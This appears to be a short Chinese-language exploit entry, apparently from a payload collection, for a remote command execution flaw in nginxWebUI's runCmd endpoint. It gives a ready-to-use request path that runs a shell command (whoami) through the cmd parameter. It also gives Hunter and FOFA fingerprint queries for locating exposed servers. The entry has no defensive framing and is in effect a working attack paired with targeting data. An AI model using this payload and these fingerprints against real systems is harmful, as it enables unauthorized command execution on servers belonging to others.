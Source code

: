 # nginxWebUI runCmd 远程命令执行漏洞
payload：/AdminPage/conf/runcmd?cmd=whoami
指纹特征：Hunter：web.icon="72e228c3809db53da8a884b6676ed36a"
fofa：app="nginxWebUI"

